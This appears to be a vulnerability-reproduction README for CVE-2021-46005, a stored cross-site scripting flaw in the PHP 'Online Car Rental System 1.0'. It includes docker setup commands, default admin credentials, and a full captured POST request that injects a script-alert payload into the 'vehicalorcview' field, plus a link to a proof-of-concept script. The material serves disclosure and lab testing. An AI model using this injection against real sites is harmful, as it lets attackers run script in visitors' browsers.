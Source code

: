 # CVE-2021-46005

Online Car Rental System 1.0 - Stored XSS

## Run Vuln

```
docker-compose build

docker-compose up -d
```

## Stop Vuln

```
docker-compose down -v
```

## Online Car Rental System

The Online Car Rental System with Source Code is a PHP project that allows you to transact online booking for car rentals. The system is using PHP and MySQL.The system is very straight forward. After you log in as admin, you can create a brand and add vehicles used for booking online. The system also has testimonials and a contact us page so the customer can give their feedback and contact the site owner. The customer can register on the website and select which vehicle they’d like to rent. The project's website has a pleasant user interface and it's user-friendly.

## Reproduction

1. Visit http://test.com/admin/ and Login as admin (admin / admin)

![](images/1.png)

2. Visit http://localhost/car-rental/admin/post-avehical.php

![](images/2.png)

3. Fill All the details on the page. After submitting, capture the request and change the "vehicalorcview" parameter with our Payload "<script>alert("CAR")</script>" and submit

![](images/3.png)

My request here, please replace your own cookie.

```
POST /OnlineCarRental/admin/post-avehical.php HTTP/1.1
Host: test.com:9202
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------13786099262839578593645594965
Content-Length: 2085
Origin: http://test.com:9202
Connection: close
Referer: http://test.com:9202/OnlineCarRental/admin/post-avehical.php
Upgrade-Insecure-Requests: 1

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicletitle"

TestName
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="brandname"

2
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="vehicalorcview"

<script>alert("CAR")</script>
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="priceperday"

200
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="fueltype"

Diesel
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="modelyear"

2008
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="seatingcapacity"

22
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img1"; filename="Untitled.png"
Content-Type: image/png

�PNG

-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="img5"; filename=""
Content-Type: application/octet-stream


-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="powerdoorlocks"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="antilockbrakingsys"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="driverairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="passengerairbag"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="centrallocking"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="crashcensor"

1
-----------------------------13786099262839578593645594965
Content-Disposition: form-data; name="submit"


-----------------------------13786099262839578593645594965--
```

4. Open the http://localhost/car-rental/ and our Payload excuted.

![](images/4.png)

## Poc

[Poc](../poc/pocsploit/CVE-2021-46005.py)

![](1.png)
